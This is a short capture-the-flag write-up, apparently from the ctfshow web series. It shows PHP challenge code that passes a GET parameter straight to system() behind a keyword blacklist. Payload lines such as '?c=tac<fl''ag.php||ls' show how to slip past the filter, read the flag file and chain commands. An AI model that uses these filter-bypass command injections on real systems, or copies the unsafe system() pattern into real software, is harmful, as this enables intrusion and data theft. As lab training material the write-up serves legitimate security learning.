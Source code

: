 

pyload:?c=tac<fl''ag.php%26%26ls

### web50

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:32:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

pyload:?c=tac<fl''ag.php||ls

### web51

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:42:52
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```
